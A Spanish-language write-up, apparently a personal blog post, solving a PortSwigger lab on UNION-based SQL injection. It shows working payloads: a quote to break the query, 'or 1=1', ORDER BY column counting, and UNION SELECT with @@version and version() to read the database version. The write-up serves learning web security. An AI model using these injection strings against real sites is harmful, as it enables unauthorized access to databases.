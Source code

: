 ```yaml
---
title: "SQL injection attack, querying the database type and version on MySQL and Microsoft"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2024-11-13 12:34:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, querying the database type and version on MySQL and Microsoft
  - Microsoft SQL Server
  - MySQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Hay que utilizar un `ataque UNION` para `recuperar` los `resultados` de la consulta, para `resolver` el `laboratorio` debemos `mostrar` la `versión` de la `base` de `datos`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-4/image_1.png)

`Pinchamos` en alguna de las `categorías`, `capturamos` la `petición` con `Burpsuite` y le `añadimos` una `'` a `category`

![](/assets/img/SQLI-Lab-4/image_2.png)

Si `enviamos` la `petición` nos dará un `Internal Server Error` debido a que hemos logrado `interferir` con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-4/image_3.png)

Si usamos este `payload`, ya habremos `solucionado` el `error` que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Gifts'+or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-4/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Gifts'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es `ignorar` el resto de la `query`

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 -- - '
```

Usando `order by` podemos `identificar` cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no obtendremos `ningún error`

```
/filter?category=Gifts'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-4/image_5.png)

Sin embargo. si ponemos un `número` de `columnas` que `no existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Gifts'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-4/image_6.png)

A continuación usamos `union select` para señalar ambos campos, debido a que la `query` no ha dado ningún `error`, podemos `descartar` que el tipo de base de datos sea `Oracle`. Si fuera `Oracle` daría un error debido a que hay que añadir `from dual` al `union select`

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Con `@@version` podemos `enumerar` la `versión` de las `bases` de `datos` de `Microsoft` y las `MySQL`

```
/filter?category=Gifts'+union+select+null,@@version--+-+
```

![](/assets/img/SQLI-Lab-4/image_7.png)

También es posible `enumerar` las bases de datos `MySQL` usando `version()` en ciertos casos

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-4/image_8.png)
